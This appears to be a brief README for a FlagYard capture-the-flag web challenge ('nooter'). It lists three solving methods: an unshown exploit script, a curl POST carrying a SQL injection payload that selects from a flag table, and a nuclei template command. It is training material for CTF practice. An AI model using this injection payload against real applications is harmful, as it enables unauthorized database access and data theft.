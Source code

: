 # FlagYard
Flagyard is an online platform that offers hands-on cybersecurity training, including various types of capture-the-flag

#nooter
https://flagyard.com/labs/training-labs/2/challenges/00c862b7-13cb-4142-8116-3dde550f4daa

Method 1: 

Step 1: Run python exploit.py

Step 2: Enter URL and Your session cookie
![2](https://github.com/user-attachments/assets/77f7c400-81c2-47f0-bce1-7187a538ce8e)


Method 2:

#curl -X POST http://example.com -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: session=YOUR_SESSION_COOKIE" --data "note=AppSec' || (select * from flag)) --"

Method 3:

#nuclei -t flag-extraction.yaml -u http://example.com -var cookie="YOUR_SESSION_COOKIE"
